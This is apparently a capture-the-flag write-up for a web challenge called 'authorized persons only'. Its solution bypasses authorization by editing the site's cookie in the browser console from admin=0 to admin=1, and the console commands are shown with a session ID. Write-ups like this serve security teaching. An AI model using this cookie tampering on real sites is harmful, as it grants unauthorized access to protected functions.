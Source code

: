 # authorized persons only

## Description
Authorized persons can get flag here[http://hack.bckdr.in/CKK/index.php]
Created by: Vishrut Kumar Mishra
No. of Correct Submissions: 1383

## Solution

Just set the admin field in the cookie to 1. You can do it via the browser console.

```
document.cookie
"admin=0; PHPSESSID=a870qm80ls7r5lhnoqfjohbvc2"
document.cookie="admin=1; PHPSESSID=a870qm80ls7r5lhnoqfjohbvc2"
"admin=1; PHPSESSID=a870qm80ls7r5lhnoqfjohbvc2"
```

Refresh the site and get the flag.
